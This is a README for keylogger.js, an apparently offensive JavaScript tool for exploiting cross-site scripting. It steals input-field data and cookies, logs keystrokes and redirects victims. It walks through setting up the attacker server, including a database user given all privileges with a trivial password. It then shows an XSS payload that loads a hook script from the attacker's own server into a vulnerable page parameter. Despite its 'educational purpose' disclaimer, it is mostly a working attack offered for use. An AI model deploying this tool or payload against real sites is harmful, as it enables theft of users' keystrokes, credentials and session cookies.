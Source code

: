 # keylogger.js
A JS keylogger to exploit XSS

> This tool is only for educational purpose, do not use it against real environment



## Functionnalities

- Exfiltrate input field data
- Exfiltrate cookies
- Keylogging
- Display alert box
- Redirect user



## Install

You may need Apache + Mysq + PHP (+ php-curl)

```
# apt-get install apache2 mysql-server php php-mysql php-curl
```



Pull the keylogger source code:

```
git clone https://github.com/Sharpforce/keylogger.js.git
mv /var/www/html/keylogger/* ./
```



### Init the database

```
# mysql -u root
```

Creating a new user with specific rights:

```
MariaDB [(none)]> grant all on *.* to keylogger@localhost identified by 'keylogger';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> flush privileges;
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> quit
Bye
```

Creating the database (will result in an empty page):

Visit the page http://ip/reset_database.php



### Exploit JS

The file hook.js is a hook. You need to replace the ip address in the first line with the keylogger.js server ip address:

```javascript
var address = "your server ip";
```



Insert the hook in your XSS payload:

```
?vulnerable_param=<script src="http://your_server_ip/hook.js"/>
```



Then, the keylogger server should list hooked browsers:

![image-20200214110103913](img/image-20200214110103913.png)

### Demo

*Welcome page / Hooked browser*
![](img/hooked_browser.gif)















